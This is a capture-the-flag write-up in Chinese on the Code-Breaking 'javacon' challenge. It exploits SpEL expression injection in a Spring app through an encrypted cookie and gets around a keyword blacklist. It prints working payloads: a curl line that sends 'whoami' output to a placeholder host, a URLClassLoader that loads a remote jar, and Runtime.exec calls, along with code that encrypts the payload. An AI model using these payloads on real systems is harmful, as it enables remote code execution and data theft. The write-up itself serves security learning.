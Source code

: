 # P牛-Code-Breaking Puzzles-javacon

#

先判断输入的用户密码

![](image/image_7Ew0XG6Lek.png)

之后访问的时候，都会解密cookie中的值，然后获取用户名，并调用getAdvanceValue处理：

![](image/image_S-_nDakaTj.png)

表达式注入，但是有黑名单：

![](image/image_dU6HO-uqjg.png)

![](image/image_Bidigej1zC.png)

黑名单内容：

![](image/image_aRyCXYlWIA.png)

```java
"".class.forName("javax.script.Scrip".concat("tEngineManager")).newInstance().getEngineByName('js').eval("java.la".concat("ng.Run").concat("time.getR").concat("untime().exec('open -a Calculator')"))


#{T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"/bin/bash","-c","curl http://xxx?a=`whoami`"})}

new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://ip:prot/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance()

```

看下区别：

```java
        ParserContext parserContext = new TemplateParserContext();
        ExpressionParser parser = new SpelExpressionParser();
        Expression exp = parser.parseExpression(cmdStr, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        exp.getValue(evaluationContext).toString();

//        ExpressionParser parser = new SpelExpressionParser();//创建解析器
//        Expression exp = parser.parseExpression(cmdStr);//解析表达式
//        System.out.println( exp.getValue() );//弹出计算器
```

这两段代码的主要区别在于**使用了不同的解析上下文 (****`ParserContext`****) 和表达式上下文 (****`EvaluationContext`****)**，具体如下

**上面的代码：**

#### 1. 使用 `TemplateParserContext`

- **`TemplateParserContext`** 是 Spring 提供的一种模板解析器上下文，通常用于处理模板表达式（如 `#{}` 或 `${}` 形式的占位符）。
- **`cmdStr`** 是表达式字符串，它可能包含占位符或模板语法。例如：`"Hello, #{name}"`。
- **效果**：
  - 在这种模式下，Spring 允许解析类似模板的表达式，支持动态插值（如将占位符替换为上下文中的值）。

**下面的代码：**

#### 1. 未使用 `ParserContext`

- 直接解析 `cmdStr`，没有引入模板解析上下文。
- **`cmdStr`** 必须是一个标准的 SpEL 表达式，例如：`"T(java.lang.Runtime).getRuntime().exec('open -a Calculator')"`。

#### 2. 未使用自定义上下文

- 这里直接调用 `exp.getValue()`，使用的是默认的上下文。这种情况下，表达式中不能引用自定义变量或方法，因为没有提供额外的上下文信息。

所以最终的payload:

```java
#{"".class.forName("javax.script.Scrip".concat("tEngineManager")).newInstance().getEngineByName('js').eval("java.la".concat("ng.Run").concat("time.getR").concat("untime().ex").concat("ec('open -a Calculator')"))}
```

```java
package org.example;

import io.tricking.challenge.Encryptor;
import io.tricking.challenge.spel.SmallEvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.ParserContext;
import org.springframework.expression.common.TemplateParserContext;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class Main {
    public static void main(String[] args) {
        String cmdStr= "#{\"\".class.forName(\"javax.script.Scrip\".concat(\"tEngineManager\")).newInstance().getEngineByName('js').eval(\"java.la\".concat(\"ng.Run\").concat(\"time.getR\").concat(\"untime().ex\").concat(\"ec('open -a Calculator')\"))}";
        System.out.println(Encryptor.encrypt("c0dehack1nghere1","0123456789abcdef",cmdStr));
//        ParserContext parserContext = new TemplateParserContext();
//        ExpressionParser parser = new SpelExpressionParser();
//        Expression exp = parser.parseExpression(cmdStr, parserContext);
//        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
//        exp.getValue(evaluationContext).toString();

//        ExpressionParser parser = new SpelExpressionParser();//创建解析器
//        Expression exp = parser.parseExpression(cmdStr);//解析表达式
//        System.out.println( exp.getValue() );//弹出计算器

//        String string1= "\"\".class.forName(\"javax.script.Scrip\".concat(\"tEngineManager\")).newInstance().getEngineByName('js').eval(\"java.la\".concat(\"ng.Run\").concat(\"time.getR\").concat(\"untime().ex\").concat(\"ec('open -a Calculator')\"))";

    }
}
```

rce:

![](image/image_W-kxxGiM1F.png)
